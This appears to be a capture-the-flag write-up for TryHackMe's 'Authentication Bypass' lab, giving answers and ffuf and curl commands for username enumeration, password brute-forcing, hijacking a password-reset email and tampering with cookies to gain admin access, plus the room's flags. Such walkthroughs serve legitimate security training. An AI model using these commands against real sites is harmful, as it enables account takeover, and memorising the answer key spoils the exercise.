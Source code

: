 ![Authentication Bypass Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Cover.png" alt="Authentication Bypass Logo">
</p>

# Authentication Bypass

This guide contains the answer and steps necessary to get to them for the [Authentication Bypass](https://tryhackme.com/room/authenticationbypass) room.

## Table of contents

- [Username Enumeration](#username-enumeration)
- [Brute Force](#brute-force)
- [Logic Flaw](#logic-flaw)
- [Cookie Tampering](#cookie-tampering)

### Username Enumeration

1. What is the username starting with si*** ?

   We have a form which seems to leak more information than we should.
   
   ![Exists](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Enumeration_Exists.png)
   
   To abuse the fact that a result is returned when the username already exists we can use ffuf with the following commands and names takes from the source page:
   
   ![Source](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Enumeration_Source.png)
   
   ```cmd
   ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.47.167/customers/signup -mr "username already exists"
   ```

   ![Users](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Enumeration_Users.png)

   ><details><summary>Click for answer</summary>Simon</details>

2. What is the username starting with st*** ?

   This was found with the above command.

   ><details><summary>Click for answer</summary>Steve</details>

3. What is the username starting with ro**** ?

   This was found with the above command.

   ><details><summary>Click for answer</summary>Robert</details>

### Brute Force

1. What is the valid username and password (format: username/password)?

   After putting the usernames in a text files we can combine it with a password wordlist in ffuf.
   
   ```cmd
   ffuf -w usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.47.167/customers/login -fc 200  
   ```

   ![Password](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Brute_Force_Password.png)

   ><details><summary>Click for answer</summary>steve/thunder</details>

### Logic Flaw

1. What is the flag from Robert's support ticket?

   The following form allows us to reset someones password and send the email to us.
   
   ![Form](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Logic_Form.png)
   
   ```cmd
   curl "http://10.10.47.167/customers/reset?email=robert@acmeitsupport.thm" -H "Content-Type: application/x-www-form-urlencoded" -d "username=robert&email=1337h4ck3r@customer.acmeitsupport.thm"
   ```

   Here we receive the ticket to log into the account.
   
   ![Ticket](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Logic_Ticket.png)
   
   And now we can access the flag on Roberts account.
   
   ![Flag](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Logic_Flag.png)
   
   ><details><summary>Click for answer</summary>THM{AUTH_BYPASS_COMPLETE}</details>

### Cookie Tampering 

1. What is the flag from changing the plain text cookie values?

   We can use the following command to check if we are logged in:

   ```cmd
   curl http://10.10.47.167/cookie-test -H "Cookie: logged_in=true	"
   ```
   
   The next command should also give us admin privileges:
   
   ```cmd
   curl http://10.10.47.167/cookie-test -H "Cookie: logged_in=true; admin=true"
   ```
   
   ![Admin](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Cookie_Admin.png)
   
   ><details><summary>Click for answer</summary>THM{COOKIE_TAMPERING}</details>

2. What is the value of the md5 hash 3b2a1053e3270077456a79192070aa78 ?

   Using crackstation, we can get the string belonging to this hash.
   
   ![MD5](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Cookie_MD5.jpeg)

   ><details><summary>Click for answer</summary>463729</details>

3. What is the base64 decoded value of VEhNe0JBU0U2NF9FTkNPRElOR30= ?

   To decode a Base64 strings we can use CyberChef.
   
   ![Base 64](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/authenticationbypass/Authentication_Bypass_Cookie_Base_64.png)

   ><details><summary>Click for answer</summary>THM{BASE64_ENCODING}</details>

4. Encode the following value using base64 {"id":1,"admin":true}

   Encoding to Base64 can also be done with CyberChef.

   ><details><summary>Click for answer</summary>eyJpZCI6MSwiYWRtaW4iOnRydWV9</details>
